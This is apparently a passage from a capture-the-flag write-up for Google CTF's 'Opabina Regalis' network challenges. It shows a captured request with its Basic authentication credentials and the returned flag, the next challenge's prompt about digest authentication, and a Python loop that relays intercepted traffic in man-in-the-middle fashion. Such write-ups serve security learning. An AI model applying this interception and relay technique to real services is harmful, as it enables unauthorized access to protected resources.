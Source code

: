 ```
ver: GET
uri: "/protected/not-secret"
headers {
  key: "Authorization"
  value: "Basic Z29vZ2xlLmN0ZjoxOTEzODI5MzM1LjEyODMwMTAxMDYuNzQwOTc2MDc1"
}

===============================================================================
Username: google.ctf
Password: 1913829335.1283010106.740976075
===============================================================================
status: 200
headers {
  key: "Server"
  value: "opabina-regalis.go"
}
body: "CTF{What:is:green:and:goes:to:summer:camp...A:brussel:scout}"
```

Input Validation (Network 100)
------------------------------

Following on from **Opabina Regalis - Fetch Token** and **Opabina Regalis -
Downgrade Attack** - can you find an input validation request that would allow
you to access otherwise protected resources?

[This](https://en.wikipedia.org/wiki/Digest_access_authentication) may give you
some inspiration on where the issue lies.

Listening on port 12001 on `ssl-added-and-removed-here.ctfcompetition.com`

- - - - -

We don't change a winning team:

```python
tmp = s.recv(8196)
print(parseRequest(tmp))
el()

s.send(tmp)
tmp = s.recv(8196)
print(parseReply(tmp))
el()

s.send(tmp)
tmp = s.recv(8196)
print(parseRequest(tmp))
el()

s.send(tmp)
tmp = s.recv(8196)
print(parseReply(tmp))
```
